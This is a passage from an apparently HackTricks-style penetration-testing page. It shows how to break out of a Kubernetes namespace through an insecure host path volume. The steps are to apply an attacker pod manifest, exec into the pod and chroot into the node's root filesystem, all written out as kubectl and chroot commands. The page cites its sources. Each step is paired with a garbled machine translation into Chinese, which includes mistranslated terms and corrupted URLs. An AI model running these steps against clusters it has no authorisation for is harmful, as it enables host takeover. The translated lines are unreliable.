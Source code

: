 [原始YAML来源]（https://gist.github.com/abhisek/1909452A8AB9B8383A2E2E94F94F95AB0CCBA）

After that you create the pod

之后您创建豆荚

```bash
kubectl apply -f attacker.yaml [-n <namespace>]
```

Now you can switch to the created pod as follows

现在您可以切换到创建的POD如下

```bash
kubectl exec -it attacker-pod [-n <namespace>] -- bash # attacker-pod is the name defined in the yaml file
```

And finally you chroot into the node's system

最后，您将节点的系统chroot

```bash
chroot /root /bin/bash
```

Information obtained from: [Kubernetes Namespace Breakout using Insecure Host Path Volume — Part 1](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216) [Attacking and Defending Kubernetes: Bust-A-Kube – Episode 1](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)

从：[Kubernetes使用Insecure主机路径卷突破的信息 - 第1部分]（https://blog.appsecco.com/kubernetes-namespace-break-break-usef-using-insecure-insecure-host-path-volume-part-volume-part-1-b382f2a6e216）） [攻击和捍卫Kubernetes：Bust-a-Kube  - 第1集]（https://www.inguardians.com/attacking-and-defend--defending-kubernetes-bust-a-kube-kube-episode-1/）

# References

{% embed url="https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-3" %}


<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>


